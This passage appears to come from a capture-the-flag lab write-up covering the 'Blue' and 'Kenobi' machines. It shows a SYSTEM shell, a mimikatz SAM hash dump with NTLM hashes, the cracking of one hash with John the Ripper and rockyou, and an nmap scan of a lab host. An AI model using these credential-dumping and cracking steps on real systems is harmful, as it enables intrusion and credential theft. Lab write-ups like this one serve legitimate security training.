 After running this module we will be given a shell as SYSTEM.
```
C:\Windows\system32>whoami

nt authority\system
```

### HASHDUMP
The challenge requests us to dump hashes through a meterpreter session, but it's just as easy to dump them through `mimikatz`.
```
mimikatz # lsadump::sam
Domain : JON-PC
SysKey : 55bd17830e678f18a3110daf2c17d4c7
Local SID : S-1-5-21-2633577515-2458672280-487782642

SAMKey : c74ee832c5b6f4030dbbc7b51a011b1e

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Jon
  Hash NTLM: ffb43f0de35be4d9917ac0cc8ad57f8d

mimikatz # 
```

### CRACKING
Now we can crack the hashes we found to see what passwords the users were using.
```
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status

alqfna22         (Jon)
```

## KENOBI

### NMAP
```
nmap -sC -sV 10.10.64.111
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-18 12:35 BST
Nmap scan report for 10.10.64.111
Host is up (0.091s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
```